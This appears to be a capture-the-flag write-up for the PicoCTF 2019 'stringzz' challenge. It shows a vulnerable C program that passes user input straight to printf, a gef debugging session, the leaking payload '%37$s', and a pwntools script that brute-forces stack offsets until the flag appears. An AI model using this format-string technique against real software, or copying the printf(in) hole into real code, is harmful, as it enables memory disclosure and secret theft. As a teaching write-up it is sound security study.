 ```yaml
---
title: Leak all the stack
description: Leak all the stack using a format string attack.
---
```


# Format string - Leak all the stack

## Summary

Leak all the stack using a format string attack.

## Challenge

### Statement

!!! note ""
    Challenge : `stringzz` from PicoCTF 2019.

Use a format string to pwn this [program](https://2019shell1.picoctf.com/static/31d401db5c499308034d1795794324ad/vuln) and get a flag.

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);

}
```

## Answer

The content of the file is located inside the heap, but there is a pointer to the content of the `flag.txt` file inside the stack. So by using `%s`, the format string will display the string pointed by this address.

(For testing purposes, I created the `flag.txt` file with the content `FLAG{gg}`.)

We can find this address in the stack by setting a breakpoint on the call of the vulnerable `printf` function.

```asm
gef➤  disass printMessage3
Dump of assembler code for function printMessage3:
   0x000006ed <+0>:     push   ebp
   0x000006ee <+1>:     mov    ebp,esp
   0x000006f0 <+3>:     push   ebx
   0x000006f1 <+4>:     sub    esp,0x4
   0x000006f4 <+7>:     call   0x5f0 <__x86.get_pc_thunk.bx>
   0x000006f9 <+12>:    add    ebx,0x18bb
   0x000006ff <+18>:    sub    esp,0xc
   0x00000702 <+21>:    lea    eax,[ebx-0x1684]
   0x00000708 <+27>:    push   eax
   0x00000709 <+28>:    call   0x570 <puts@plt>
   0x0000070e <+33>:    add    esp,0x10
   0x00000711 <+36>:    sub    esp,0xc
   0x00000714 <+39>:    push   DWORD PTR [ebp+0x8]
   0x00000717 <+42>:    call   0x520 <printf@plt>
   0x0000071c <+47>:    add    esp,0x10
   0x0000071f <+50>:    nop
   0x00000720 <+51>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x00000723 <+54>:    leave
   0x00000724 <+55>:    ret
End of assembler dump.
gef➤  b *(printMessage3+42)
- Breakpoint 1 at 0x717
```

Let's run the program and find where the flag is located using the command `grep`.

```asm
gef➤  grep "FLAG{gg}"
[+] Searching 'FLAG{gg}' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rw-
  0x56558a40 - 0x56558a4a  →   "FLAG{gg}\n"
  0x56558c10 - 0x56558c1a  →   "FLAG{gg}\n"
```

As you can see, the content of `flag.txt` is stored on the heap, but lets try to find `0x56558a40` or `0x56558c10` in the stack.

```asm
gef➤  x/50xw $sp
0xffffd1c0:     0x565585b0      0x0000000a      0x00000004      0x565556f9
0xffffd1d0:     0x00000001      0x56556fb4      0xffffd1f8      0x56555755
0xffffd1e0:     0x565585b0      0x56555995      0x56555993      0x56555731
0xffffd1f0:     0x00000001      0x56556fb4      0xffffd218      0x5655578e
0xffffd200:     0x565585b0      0x56555993      0x00000001      0x5655576a
0xffffd210:     0x00000001      0x56556fb4      0xffffd268      0x5655584d
0xffffd220:     0x565585b0      0x00000080      0x56558ad0      0x565557ae
0xffffd230:     0x00000001      0xf7fddab0      0x00000000      0xffffd324
0xffffd240:     0xf7f993bc      0x56556fb4      0xffffd32c      0x00000078
0xffffd250:     0x565585b0    > 0x56558a40 <    0x56558ad0      0x0b337100
0xffffd260:     0xffffd280      0x00000000      0x00000000      0xf7dc7a0d
0xffffd270:     0x00000001      0x565555b0      0x00000000      0xf7dc7a0d
0xffffd280:     0x00000001      0xffffd324
gef➤  x/s 0x56558a40
0x56558a40:     "FLAG{gg}\n"
```

As you can see, there is our address inside `> <`.
`0x56558a40` is a the 37th place in the stack, so we can retrieve it using `%37$s`.

```bash
$ ./vuln
input whatever string you want; then it will be printed back:

%37$s
Now
your input
will be printed:

FLAG{gg}
```

---

The other way to solve this challenge is using bruteforce :

Source code (solve.py) :

```python
#!/usr/bin/env python3
from pwn import process, log, context

PROGRAM = "./vuln"
DELIM = b"input whatever string you want; then it will be printed back:\n"

data = b""
i = 0
while b"FLAG{" not in data:
    log.info(f"Trying n°{i} ...")

    with context.local(log_level="error"):
        proc = process(PROGRAM)
        proc.sendlineafter(DELIM, f"%{i}$s".encode())
        proc.recvuntil(b"will be printed:\n\n")
        data = proc.recvall()

    log.info(f"Data : {data}")
    i += 1
```

Execution :

```bash
$ echo 'FLAG{gg}' > flag.txt
$ python3 solve.py
[*] Trying n°0 ...
[*] Data : b'%0$s\n'
[*] Trying n°1 ...
[*] Data : b''
[*] Trying n°2 ...
[*] Data : b''
[*] Trying n°3 ...
[*] Data : b'\x81\xc3\xbb\x18\n'
[...]
[*] Trying n°35 ...
[*] Data : b''
[*] Trying n°36 ...
[*] Data : b'%36$s\n\n'
[*] Trying n°37 ...
[*] Data : b'FLAG{gg}\n\n'
```